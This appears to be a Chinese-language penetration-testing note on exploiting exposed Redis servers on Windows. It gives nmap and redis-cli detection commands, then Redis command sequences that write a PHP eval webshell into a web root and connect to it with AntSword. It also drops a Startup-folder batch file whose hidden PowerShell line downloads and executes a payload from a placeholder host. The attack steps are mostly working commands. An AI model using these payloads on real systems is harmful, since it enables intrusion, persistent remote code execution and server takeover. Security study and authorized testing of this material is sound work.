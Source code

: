 # 0x03 漏洞检测
```bash
nmap -sV -p 6379 --script redis-info
redis-cli -h ip -p port -a 密码
```

# 0x04 利用方式
## 4.1 Windows

### 1、网站绝对路径写webshell

🚩 [网站路径存在中文如何解决？？](https://github.com/reidmu/sec-note/tree/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/Redis#%E4%B8%AD%E6%96%87%E8%B7%AF%E5%BE%84)

```bash
config set dir "E:/phpstudy_pro/WWW"
//切换目录到网站的根目录

set x "\n\n\n<?php phpinfo();?>\n\n\n"
//写入恶意代码到内存中(1)

set xx "\n\n\n<?php @eval($_POST['cmd']);?>\n\n\n"
//写入恶意代码到内存中(2)

config set dbfilename shell.php
//在磁盘中生成木马文件

save
//将内存之中的数据导出到磁盘文件
```
phpinfo获取网站绝对路径：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637663468168-b4faa0b5-0518-4dc0-8c7b-a325e5d96c05.png#clientId=u780fef54-e9bc-4&from=paste&id=ud7587e6c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=32&originWidth=578&originalType=binary&ratio=1&size=3244&status=done&style=none&taskId=u1024e06d-071b-4cb7-9abf-0aec4e15006)

蚁剑连接`http://ip/shell.php`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637663607313-142844f1-6ad9-41fd-a054-a781b40a0581.png#clientId=u780fef54-e9bc-4&from=paste&height=333&id=ubf820056&margin=%5Bobject%20Object%5D&name=image.png&originHeight=665&originWidth=966&originalType=binary&ratio=1&size=61178&status=done&style=none&taskId=ud6c89788-a069-4a6c-ad92-94912f82070&width=483)



### 2、开机自启动目录
缺点：需要靶机服务器重启。

1）cs生成powershell一句话

![image](https://user-images.githubusercontent.com/84888757/173838744-51aa77fe-ef2c-4e11-8785-c1c4a62816d9.png)


2）redis-cli执行命令
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('[http://x.x.x.x:80/a'))"](http://x.x.x.x:80/a'))")
```bash
config set dir "C:/Users/username/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"

config set dbfilename cs.bat

set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/a'))\"\r\n\r\n"

save
```
